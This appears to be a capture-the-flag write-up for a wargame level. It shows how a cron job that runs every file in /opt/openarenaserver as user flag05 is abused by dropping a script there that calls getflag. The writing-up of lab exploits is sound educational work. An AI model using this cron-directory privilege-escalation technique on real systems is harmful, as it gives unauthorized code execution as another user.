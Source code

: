 # Level05

## Objective
Exploit the crontab configuration to execute the command `/usr/sbin/openarenaserver` as `flag05`. Use the script `/usr/sbin/openarenaserver` to execute the `getflag` command and retrieve the flag.

## Steps

### Step 1: Identify Relevant Files
Use the `find` command to identify files related to `level05`:

```bash
find / -group flag05 2>/dev/null
find / -name "level05" 2>/dev/null
```

Results:
```plaintext
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
/var/mail/level05
/rofs/var/mail/level05
```

### Step 2: Examine Crontab Configuration
Check the contents of the crontab configuration for `flag05`:

```bash
cat /var/mail/level05
```

Result:
```plaintext
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

This crontab runs the script `/usr/sbin/openarenaserver` every 2 minutes as `flag05`.

### Step 3: Examine `openarenaserver` Script
Check the contents of the `/usr/sbin/openarenaserver` script:

```bash
cat /usr/sbin/openarenaserver
```

Result:
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

This script executes any file in `/opt/openarenaserver` and then deletes it.

### Step 4: Exploit the Crontab and Script
Create a file in `/opt/openarenaserver` that executes the `getflag` command:

```bash
echo "/bin/getflag > /tmp/flag" > /opt/openarenaserver/getflag
```

Give execution permissions to the file:

```bash
chmod +x /opt/openarenaserver/getflag
```

After waiting for 2 minutes, the flag will be in the file `/tmp/flag`:

```bash
cat /tmp/flag
```

### Optional: Refine with Broadcast Message
Create a file in `/opt/openarenaserver` that broadcasts the `getflag` message to all users:

```bash
echo "/bin/getflag | wall" > /opt/openarenaserver/getflag
chmod +x /opt/openarenaserver/getflag
```

This will send the `getflag` message to all users.

Congratulations! You've successfully exploited the crontab configuration and script to execute the `getflag` command and retrieve the flag.